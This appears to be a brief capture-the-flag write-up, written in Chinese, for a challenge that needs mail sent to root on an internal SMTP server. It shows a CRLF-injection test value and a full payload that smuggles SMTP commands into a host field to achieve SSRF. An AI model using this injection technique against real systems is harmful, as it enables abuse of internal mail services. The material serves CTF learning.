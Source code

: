 題目說我們要給 root 寄信，在 127.0.0.1:25 ，所以要做 ssrf

利用 CRLF ，傳個 hello 試試看
```
127.0.0.1%0d%0aHELO admin%0a:25
```

![image](img/31Xnlm2.png)

payload:
```
127.0.0.1
HELO admin
MAIL FROM:<myemail@gmail.com>
RCPT TO:<root@ymzk01.pwn>
DATA
From:myemail@gmail.com
To:root@ymzk01.pwn
Subject:give me flag
give me flag
.
QUIT
:25/
```
